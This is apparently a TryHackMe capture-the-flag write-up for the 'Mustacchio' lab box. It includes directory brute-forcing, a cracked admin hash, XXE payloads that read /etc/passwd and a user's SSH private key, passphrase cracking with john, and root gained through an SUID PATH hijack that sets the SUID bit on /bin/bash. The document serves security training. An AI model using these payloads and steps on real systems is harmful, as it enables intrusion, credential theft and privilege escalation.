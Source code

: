 ```yaml
---
category: [Linux, Tryhackme]
tags: [ Linux, TryHackMe, Easy]
---
```


# Enumeration

Starting with Nmap

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-12 22:51 IST
Nmap scan report for 10.10.156.81
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.72 seconds
```

According to nmap results, we have 3 ports open. We dont have anything for ssh, so lets start poking around at webserver.

### PORT 80

 Looking at this port, seems like its a static webpage. Running ffuf on it for directory brute-force
 ```bash
 fuf -u http://10.10.156.81/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c

...[snip]...

 :: Method           : GET
 :: URL              : http://10.10.156.81/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

images                  [Status: 301, Size: 313, Words: 20, Lines: 10]
custom                  [Status: 301, Size: 313, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 312, Words: 20, Lines: 10]
                        [Status: 200, Size: 1752, Words: 77, Lines: 73]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
:: Progress: [220546/220546]_:: Job [1/1] :: 206 req/sec :: Duration: [0:17:50] :: Errors: 0 ::
```

In the custom/js dir, we found `mobile.js` and `users.bak`. The latter file seems interesting, lets download it. Checking the file contents:
```
0]admin1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
```

The above seems like credentials (but we dont have anything to login). The hash was SHA-1, decoding the hash, we got the password `bulldog19`.

### Port 8765

  We have an Admin login page. Using the credentials we found earlier, we were logged-in. The admin page says:
  ![image](https://user-images.githubusercontent.com/43528306/121785785-6fdc9180-cbd9-11eb-8a83-f0b74242f25a.png)

  Looking at the source code of the page
  
![image](https://user-images.githubusercontent.com/43528306/121785568-28093a80-cbd8-11eb-9128-dbb9a265f896.png)

```javascript
//document.cookie = "Example=/auth/dontforget.bak"; 
      function checktarea() {
      let tbox = document.getElementById("box").value;
      if (tbox == null || tbox.length == 0) {
        alert("Insert XML Code!")
      }
   }
```

So it seems like we can send XML code through it. This might be vulnerable to *XXE*. Also in the source code, we found a file `/auth/dontforget.bak`. Looking at this file, it was a sample xml code that might work. First lets test it with the format in file only. It worked.

Now its time to make some changes to the file and add our payload. First lets test whether the application is vulnerable to XXE or not
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY test "Doe"> ]>
<comment>
  <name>john</name>
  <author>blah</author>
  <com>&test;</com>
</comment>
```

In the output, we see `Comment: Doe`. Our injection did work. Now lets grab `/etc/passwd` as usaul :D
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<comment>
        <name>john</name>
  <author>abc</author>
  <com>&xxe;</com>
</comment>
```

We got our file. From the comment in source code, we know that *barry* can ssh into the machine. So let's try to grab barry's ssh key. 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
        <name>john</name>
  <author>abc</author>
  <com>&xxe;</com>
</comment>
```

We got the key but it was incrypted. Running `ssh2john`, we got the hash. After running john
```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
...[snip]...
urieljames       (barry)
...[snip]...
```

We can now ssh into the box using key and passphrase we found and grab user.txt

# ROOT

There were two users on the box, *barry* and *joe*. Since we dont have any password for barry, `sudo -l` failed. After looking for a while to switch to *Joe* user, didn't find anything. Looking at Joe's home dir, it had
```bash
barry@mustacchio:/home/joe$ ls -l
total 20
-rwsr-xr-x 1 root root 16832 Jun 12 15:48 live_log
```

The binary was owned by root and had *SUID* bit set on it. Let's run the binary, it seems to return live webserver's logs. As it was a binary not stripped, first step, look at stings. We found
`tail -f /var/log/nginx/access.log`. The binary was using `tail` binary but it was not using full path of the binary. So we can try path hijack.

Creating a file named `tail` in /tmp directory.
```bash
#!/bin/bash

chmod +xs /bin/bash
```

Change the PATH env variable, and execute the file. After executing, we can see `/bin/bash` now have *suid* bit set on it. Now, simply `/bin/bash -p` and we are root.
